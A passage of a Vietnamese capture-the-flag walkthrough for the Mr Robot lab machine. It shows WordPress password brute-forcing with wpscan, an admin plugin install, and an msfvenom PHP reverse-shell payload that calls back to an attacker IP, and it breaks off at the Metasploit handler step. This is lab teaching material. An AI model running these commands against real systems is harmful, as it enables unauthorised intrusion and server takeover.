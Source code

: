 <pre><code class="lang-bash"><span class="hljs-comment">wpscan</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">url</span> <span class="hljs-comment">192</span><span class="hljs-string">.</span><span class="hljs-comment">168</span><span class="hljs-string">.</span><span class="hljs-comment">226</span><span class="hljs-string">.</span><span class="hljs-comment">158</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">passwords</span> <span class="hljs-comment">/home/user/Downloads/wordlist</span><span class="hljs-string">.</span><span class="hljs-comment">dic</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">usernames</span> <span class="hljs-comment">Elliot</span> <span class="hljs-literal">-</span><span class="hljs-literal">-</span><span class="hljs-comment">wp</span><span class="hljs-literal">-</span><span class="hljs-comment">content</span><span class="hljs-literal">-</span><span class="hljs-comment">dir</span> <span class="hljs-comment">wp</span><span class="hljs-literal">-</span><span class="hljs-comment">content</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-10.png#full" alt="mr-robot-10.png"></p>
<p>Chúng ta đã tìm được mật khẩu của tài khoản Elliot. Bây giờ chúng ta thử đăng nhập vào trang web và kết quả như hình dưới đây:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-11.png#full" alt="mr-robot-11.png"></p>
<h2 id="buoc-6-upload-shell">Bước 6: Upload Shell</h2>
<p>Để chiếm quyền máy chủ Mr Robot, chúng ta cần phải thực hiện việc tải lên shell cho phép thực hiện các khai thác đến máy chủ. Đầu tiên, chúng ta cần cài đặt một <strong>plugin</strong> có tên là <strong>File manager</strong> (Do ở đây Elliot đã là admin nên có thể cài đặt được bất kỳ plugin nào).</p>
<p>File manager cho phép chúng ta quản lý thư mục và file dễ dàng hơn trên website. Trên menu bên phải trỏ vào <strong>Plugin</strong> và chọn phần <strong>Add new</strong> để tiến hành cài đặt mới plugin. Ở ô <strong>Search Plugins</strong>, gõ vào ô tìm kiếm là <strong>File manager</strong>. Nó sẽ có dạng giống như hình bên dưới đây:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-12.png#full" alt="mr-robot-12.png"></p>
<p>Nhấn vào nút <strong>Install Now</strong> để bắt đầu cài đặt plugin. Sau khi cài đặt xong, chuyển sang phần <strong>Installed Plugins</strong> và chọn plugin <strong>WP File manager</strong> để tiến hành <strong>Active</strong>. Tải lại trang và chọn phần <strong>File manager</strong> để kiểm tra file.</p>
<p>Chúng ta vào thư mục <strong>wp-content/uploads</strong> để tiến hành kiểm tra nội dụng trước khi thực hiện việc tải lên shell. Trong thư mục uploads, nội dung sẽ có dạng như hình dưới:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-13.png#full" alt="mr-robot-13.png"></p>
<p>Để thực hiện việc tải shell, chúng ta cần phải chuẩn bị shell trước đã. Công cụ <strong>MSFvenom</strong> là sự kết hợp giữa <strong>Msfpayload</strong> và <strong>Msfencode</strong>, được đưa vào bộ công cụ pentest rất nổi tiếng đó là <strong>Metasploit</strong>.</p>
<p>Do website này sử dụng nền tảng Wordpress (ngôn ngữ <strong>Php</strong>) nên mình sẽ tạo một con shell dạng php bằng câu lệnh dưới đây:</p>
<pre><code class="lang-bash">msfvenom -p php/meterpreter/reverse_tcp LHOST=<span class="hljs-number">192.168</span><span class="hljs-number">.226</span><span class="hljs-number">.155</span> LPORT=<span class="hljs-number">4444</span> -f raw &gt; shell.php
</code></pre>
<p>Kiểm tra <strong>shell.php</strong> bằng câu lệnh sau:</p>
<pre><code class="lang-bash"><span class="hljs-keyword">cat</span> <span class="hljs-keyword">shell</span>.php
</code></pre>
<p>Về cơ bản, đoạn code này sẽ tiến hành tạo một kết nối dạng <strong>socket</strong> và cho phép thực hiện các quyền cao đối với máy chủ website. <strong>LHOST</strong> chứa địa chỉ IP của máy attacker và <strong>LPORT</strong> sẽ tiến hành kết nối thông qua port <strong>4444</strong>. Đoạn code sẽ có dạng như hình dưới đây:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-14.png#full" alt="mr-robot-14.png"></p>
<p>Mở giao diện quản lý website và tiến hành tải file shell.php. Sau khi upload xong, chúng ta mở Terminal và gõ <strong>msfconsole</strong> để mở công cụ Metasploit.</p>
<h2 id="buoc-7-khai-thac-shell-bang-metasploit">Bước 7: Khai thác shell bằng Metasploit</h2>
<p>Công cụ Metasploit là một công cụ khá quen thuộc đối với các nhà bảo mật bởi vì họ hỗ trợ một lượng lớn thư viện các nền tảng và các mã lỗi khác nhau. Chúng ta sẽ tiến hành gõ một loạt các câu lệnh sau:</p>
<pre><code class="lang-bash">use exploit/multi/handler